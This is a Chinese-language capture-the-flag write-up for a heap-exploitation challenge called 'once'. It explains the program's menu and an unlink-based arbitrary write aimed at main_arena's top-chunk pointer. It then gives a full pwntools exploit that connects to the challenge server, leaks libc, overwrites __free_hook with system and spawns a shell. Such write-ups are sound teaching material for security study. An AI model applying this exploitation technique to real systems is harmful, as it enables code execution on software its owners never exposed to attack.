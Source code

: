 这题出得不错，虽然有点极限利用的感觉

首先说下程序的功能吧



第一个是alloc
里面是一个双向链表的结构

第二个是change_list
是修改当前链表中的第一个

第三个是list_next，是将list指向下一个

第四个trigger，这是我自己瞎起的名字，不过这里也比较重要
里面能malloc, read ,free 一个堆一次，大小也有限制

然后不是这几个选项的话，就会输出puts的地址，这里我称之为gitf吧

我说下我做题的思路是怎样的吧

首先在change list中，可以修改当前链表中第一个的内容，这样配合alloc和list_next中的unlink操作，就可以实现任意地址赋值为堆中的地址或者bss段中的地址

关键有了这个漏洞之后，写哪里，写什么是一个问题

这个时候，在脑子中迅速列出了两个选项：

1. main_arena 中的fast bin list
2. main_arena 中指向top chunk的地址

后面选择了第二个，第一个貌似也是可以的

但是有一个问题，就是无论哪一个，都需要配合上自己构造的数据

然后试着调了一下程序，发现list的初始值居然指向自身地址-0x10

然后利用change_list，就可以构造出所需要的数据，然后很明显，再用list_next就可以在fast bin list 或者main arena中top chunk的地址上写上list-0x10

这个时候用trigger 中的malloc，就可以返回list-0x10的地址，之后就可以实现控制bss段中的数据，后面就可以各种骚操作了

下面是payload

```
from pwn import *

debug=0
e=ELF('./libc.so')
if debug:
    p=process('once',env={'LD_PRELOAD':'./libc.so'})
    context.log_level='debug'
    gdb.attach(p)
else:
    p=remote('47.75.189.102', 9999)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)


def gift():
    se('0\n')
    ru('Invalid choice\n')
    base=int(p.recv(14),16)-e.symbols['puts']
    return base

def alloc():
    se('1\n')
    ru('suceess')

def change(content):
    se('2\n')
    sleep(0.5)
    se(content)
    ru('success')

def next():
    se('3\n')
    ru('success')


def trigger():
    se('4\n')
    sleep(0.5)

def trigger_read(content):
    se('2\n')
    sleep(0.5)
    se(content)
    ru('>')

def trigger_malloc(sz):
    se('1\n')
    ru('input size:')
    se(str(sz)+'\n')
    ru('>')

def trigger_end():
    se('4\n')
    ru('>')



base=gift()

main_arena=0x3C4B78+base

bss_start=base+0x3C5620
stdin=base+0x3C48E0

free_hook=base+e.symbols['__free_hook']

binsh=base+e.search('/bin/sh').next()

change(p64(1)+p64(0x20fe1)+p64(main_arena-0x10)*2)

alloc()

next()

trigger()

trigger_malloc(400)

payload=p64(free_hook)*2+p64(bss_start)+p64(0)+p64(stdin)+p64(0)*2
payload+=p64(binsh)+p32(0)+p32(0x100)+p64(0)

trigger_read(payload)

trigger_end()

change(p64(base+e.symbols['system']))

se('4\n')
sleep(0.5)
se('3\n')

p.interactive()

```